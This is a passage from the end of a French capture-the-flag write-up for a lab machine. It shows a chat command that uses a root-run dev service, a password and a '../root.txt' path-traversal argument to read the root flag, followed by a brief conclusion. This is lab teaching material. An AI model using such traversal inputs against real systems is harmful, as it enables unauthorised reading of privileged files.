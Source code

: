 ```
	u.system("Something went badly wrong.")
}
```

Maintenant nous pouvons passer par le service en dev qui tourne en root pour
lire le flag

```
aze: /file /root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/root.txt does not exist!
aze: /file ../root.txt CeilingCatStillAThingIn2021?
[SYSTEM] ef1b3ab4fd7812cc6b74c956190fffbe
aze:
```

Nous avons récupéré le flag avec succès.

## **CONCLUSION**

Pour bien reussir cette machine il fallait bien lire les codes source des apps
qui donnaient tout les indices nécessaire pour trouver notre chemin.
